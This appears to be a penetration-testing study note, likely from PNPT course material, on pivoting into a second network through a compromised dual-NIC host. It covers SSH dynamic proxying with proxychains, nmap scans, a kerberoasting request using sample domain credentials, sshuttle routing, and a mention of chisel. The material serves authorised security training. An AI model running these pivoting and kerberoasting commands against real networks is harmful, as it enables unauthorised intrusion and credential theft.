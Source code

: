 ### Pivoting

If we find a machine that has multiple NICs on it, we can use that machine to pivot to that 2nd network.

Here we have 2 machines, one with 10.10.155.5 (original network) and the other with 10.10.10.5 (2nd NIC network)

Proxychains  
&ensp;`cat /etc/proxychainsX.conf`    This will cat out the proxychains conf file.  Use `tab` to autofill as X will vary from version to version.  You're looking for the port on the bottom of the page.  
&ensp;`ssh -f -N -D 9050 -i pivot root@10.10.155.5`  
&ensp;&ensp;-f  will background the ssh connection  
&ensp;&ensp;-N   Do not excecute remote commands, great for port forwarding  
&ensp;&ensp;-D 9050     This is the port to bind to (same port as the port in your proxychains file)  
&ensp;Now we are connecting to the 10.10.155.5 machine via ssh and have bound that connection to the port listed in the .conf file, 9050.  
&ensp;Now, you can use `proxychains` to run commands through the proxy'd machine  
&ensp;`proxychains nmap -p80 10.10.10.225`  This will now proxychain through and scan the device on that 2nd network.  
&ensp;&ensp;You can run other commands through this as well, some of the output may need a harder look though.  
&ensp;&ensp;You can add `-sT` in order to pick up things through proxychains like -Pn when ping probes are being blocked.  
&ensp;`proxychains GetUserSPNs.py PNPT.local/fcastle:Password1 -dc-ip 10.10.10.225 -request`  
&ensp;&ensp;This is a kerberoasting attack run through proxychains  
&ensp;`proxychains firefox`   - this will open a firefox through the proxy, granting you access to possible internal websites in that new network  

Sshuttle  (Not installed by default, `sudo pip install sshuttle`)  
&ensp;`sshuttle -r root@10.10.155.5 10.10.10.0/24 --ssh-cmd "ssh -i pivot"`  
&ensp;&ensp;`-r root@10.10.155.5 10.10.10.0/24`    We're remoting in with the root user at 10.10.155.5 and using that to establish a connection to the new network, 10.10.10.0/24  
&ensp;&ensp;`--ssh-cmd "ssh -i pivot"`   Is the ssh command we want to run to connect to that network  
&ensp;&ensp;&ensp;Once you hit enter, you should see `c : connected to server`  
&ensp;Now you can communicate with that new network as long as that tab is running.  It's like adding your own route to a machine that you have compromised in order to access a different network.  

Chisel (from github)  
&ensp;jpillora/chisel on github

